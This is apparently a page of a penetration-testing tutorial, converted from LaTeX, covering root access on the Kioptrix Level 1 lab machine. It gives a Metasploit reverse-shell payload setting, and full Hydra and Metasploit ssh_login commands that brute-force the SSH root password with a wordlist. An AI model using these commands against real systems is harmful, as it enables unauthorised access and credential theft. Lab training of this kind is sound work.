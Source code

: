 \documentclass[11pt,a4paper]{article}
\begin{document}
So we change the payload: \textbf{set payload linux/x86/shell\_reverse\_tcp} and \textbf{run} it again. And finally, we are root, we own this machine. 

\section{Gaining Root without Metasploit}
For example, to exploit the OpenLuck vulnerability of the Kioptrix Level 1, we could download the OpenLuck exploit from Github, compile it and run it. Pretty straighforward, just follow the instructions. We'll cover manual exploitation later.\\

\section{Brute Force Attacks - SSH}
SSL exploitation is not a low hanging fruit. If you want to attack it, from a realistic point of view, you should try weak or default credentials. Then you assess:
\begin{enumerate}
\item To check password strength.
\item Know if you can get in with default credentials.
\item See how well the blue team performs. Will they know you're brute-forcing the login? Maybe an alert?
\end{enumerate}
You could be as loud as it gets, it's not a red team assessment, where we try to be quiet. Hopefully we will get caught.

\subsection{Hydra}
The syntaxis is as follows: \textbf{hydra -l root -P /usr/share/wordlists/metasploit/unix\_passwords.txt ssh://[IP]:[PORT] -t 4 -V}. Where \textbf{-l} is for the user that we're gonna be utilizing (e.g root), \textbf{-P} for the password list, port generally is 22, \textbf{-t} is for the threads, \textbf{-V} is for verbosity.

\subsection{Metasploit}
If you want to run the same task in Metasploit, you could search \textbf{ssh}, and look for the auxiliary ssh login module. \textbf{use auxiliary/scanner/ssh/ssh\_login}. Then fill in the \textbf{options}. \textbf{set username root}. \textbf{set pass\_file /usr/share/wordlist/metasploit/unix\_password.txt}. \textbf{set rhosts [IP]}. \textbf{set threads 10}. \textbf{set verbose true}. Finally \textbf{run}.
\end{document}
